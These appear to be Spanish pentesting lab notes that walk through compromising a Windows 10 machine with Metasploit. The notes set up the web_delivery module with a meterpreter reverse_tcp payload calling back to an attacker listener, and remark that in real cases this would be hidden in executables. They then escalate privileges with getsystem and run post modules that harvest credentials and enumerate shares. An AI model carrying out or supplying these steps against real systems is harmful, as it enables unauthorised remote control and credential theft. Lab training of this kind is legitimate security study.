






Windows meterpreter
WINDOWS:
Vamos a utilizar una máquina objetivo windows 10.
Vamos a utilizar otro modulo denominado webDelivery.
use exploit/multi/script/web_delivery
show targets
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.130
exploit

Nos indica que ejecutemos el exploit en la máquina objetivo.
Esto en casos reales sería obviamente camuflado en ejecutables o binarios para ser inyectado.



Para intentar elevar privilegios en windows meterpreter implementa un comando:
getsystem
También podemos usar esos módulos anteriores pero esta vez en windows.

run post/windows/gather/credentials/credential_collector

run post/windows/gather/enum_shares